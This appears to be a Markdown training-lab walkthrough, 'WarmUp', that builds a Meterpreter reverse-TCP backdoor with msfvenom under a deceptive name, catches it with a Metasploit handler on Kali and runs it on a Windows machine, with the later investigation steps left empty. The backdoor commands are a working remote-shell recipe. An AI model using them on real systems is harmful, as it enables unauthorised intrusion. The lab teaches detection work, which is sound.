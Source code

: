 # WarmUp

Create a malware with msfvenom, execute it on the victim machine and investigate with built-in win tools
Let's start it.


### Step 1

First, open an Terminal window as Administrator (CTRL + Click)
![](attachments/warmup_01.png)

Click Yes at the User the User Account Control Prompt.

Open a Kali linux command prompt: 
![](attachments/warmup_02.png)

On the Kali console, check the IP address with:
`ifconfig`
![](attachments/warmup_03.png)

Mark the IP address of the Kali linux machine eth0 interface. Your IP will be DIFFERENT!

Run the following command to create a simple backdoor.
`sudo su -`
`msfvenom --platform Windows -a x86 -p windows/meterpreter/reverse_tcp lhost=<YOUR ETH0 IP> lport=4444 -f exe -o /tmp/beliveme.exe`
`ls -l beliveme.exe`
`cp ./beliveme.exe /mnt/c/temp`

Now, we need to start the handler on attacker (Linux) machine. We need one more shell to the Linux box. Select the down carrot from the upper tabs on the Winodws Terminal and select kali-linux
Become a root:
`sudo su -`

Start the metasploit handler:
$`msfconsole -q`

msf6 > `use exploit/multi/handler`
msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
msf6 exploit(multi/handler) > `set LHOST <YOUR ETH0 IP>` Your IP will be DIFFERENT
msf6 exploit(multi/handler) > `exploit`

![](attachments/warmup_04.png)

Open a Windows command prompt, by selecting the down carrot from the the Windows Terminal.
Once it's opened, run these commands:
`cd \temp`
`beliveme.exe`

### step 2



### step 3

### step 4
